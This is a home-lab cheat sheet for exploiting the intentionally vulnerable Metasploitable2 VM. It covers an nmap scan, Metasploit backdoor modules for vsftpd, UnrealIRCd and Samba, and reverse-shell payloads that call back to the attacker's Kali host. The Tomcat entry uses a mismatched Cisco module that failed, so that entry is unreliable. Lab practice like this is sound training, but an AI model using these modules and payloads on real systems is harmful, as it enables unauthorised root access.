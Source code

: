 ## 🧠 Home Lab Cheat Sheet

### Target: Metasploitable2  
> IP: `192.168.138.130` (your lab — change if needed)

---

### How to Identify Services
```bash
nmap -sV 192.168.138.130
```
Look for open ports + service versions to match known exploits.

**nmap scan:**
![Shell Gained](./screenshots/nmap_scan.png)
---

### Common Metasploit Steps
```bash
use <exploit/module/path>
set RHOST <target IP>
set RPORT <target port>
set LHOST <Kali IP>
set PAYLOAD <payload>     # if needed
run
```

---

### PORT 21 – FTP
- **Service:** vsftpd 2.3.4  
- **Exploit Module:** `exploit/unix/ftp/vsftpd_234_backdoor`  
- **Payload:** None needed (built-in command shell)  
- **Notes:**
  - Opens a root shell backdoor on port 6200
  - Triggered by logging in with a `:)` in the username
- **Result:** `root`  
- **CVE:** [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)  

---

### PORT 6667 – IRC
- **Service:** UnrealIRCd 3.2.8.1  
- **Exploit Module:** `exploit/unix/irc/unreal_ircd_3281_backdoor`  
- **Payload:** `cmd/unix/reverse`  
- **Options to Set:**
  ```bash
  set RHOST <target IP>
  set RPORT 6667
  set LHOST <Kali IP>
  ```
- **Result:** Reverse shell as `root`  
- **CVE:** [CVE-2010-2075](https://nvd.nist.gov/vuln/detail/CVE-2010-2075)

---

### PORT 445 – Samba
- **Service:** Samba
- **Exploit Module:** `exploit/unix/samba/usermap_script`  
- **Payload:** `cmd/unix/reverse_netcat`  
- **Options to Set:**
  ```bash
  set RHOST <target IP>
  set RPORT 445
  set LHOST <Kali IP>
  ```
- **Result:** Reverse shell as `root`  
- **CVE:** [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)

---

### PORT 8180 – Apache Tomcat
- **Service:** Apache Tomcat
- **Exploit Module:** `exploit/unix/http/cisco_prime_inf_rce`  
- **Payload:** `linux/x64/meterpreter/reverse_tcp`  
- **Options to Set:**
  ```bash
  set RHOST <target IP>
  set RPORT 8180
  set LHOST <Kali IP>
  ```
- **Result:** Exploit completed but no session created, requires **manual placement of JSP payload** in `/opt/CSCOlumos` 
- **CVE:** [CVE-2018-15379](https://nvd.nist.gov/vuln/detail/CVE-2018-15379)

---

### Tips
- Always `nmap` first to find the right service version.
- Use `search <service/version>` in Metasploit to find modules.
- If it says “no payload selected,” choose one based on OS.
- If you get "no session created," check:
  - LHOST is correct
  - Firewall is off
  - Port actually open
